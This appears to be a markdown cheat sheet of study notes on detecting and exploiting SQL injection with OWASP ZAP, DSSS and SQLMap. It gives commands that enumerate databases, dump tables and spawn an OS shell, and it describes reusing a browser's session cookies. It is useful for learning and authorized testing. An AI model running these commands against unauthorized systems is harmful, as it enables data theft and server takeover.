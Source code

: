 ## SQL Injection

### Detecting SQL Injection
1. OWASP ZAP
   - Perform scan and observe alerts. Look for SQL Injection.
2. DSSS (Damn Small SQLi Scanner)
   - `cd DSSS`
   - `python3 dsss.py -u "<URL>" --cookie="<cookie value>"`
   - Copy vulnerable URL from the output and paste it in the browser to verify
3. SQLMap
   - `sqlmap -u "<URL>"`
   - `sqlmap -u "<URL>" --forms`

### Exploiting SQL Injection
[SQLMap](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

Extract cookies from browser console using `document.cookie`

If `--cookie` does not work, intercept request using burp suite and save the request in a text file. Then use `-r req.txt` to load the request from the file.
   1. Enumeration of databases 
      - `sqlmap -u "<URL>" --cookie="<cookie value>" --dbs`
   2. Enumeration of Tables in a Database
      - `sqlmap -u "<URL>" --cookie="<cookie value>" -D <database name> --tables`
   3. Dump the data from the database
      - `sqlmap -u "<URL>" --cookie="<cookie value>" -D <database name> -T <table name> --dump`
   4. Spawning an OS Shell with SQLMap
      - `sqlmap -u "<URL>" --cookie="<cookie value>" --os-shell` > `hostname` and verify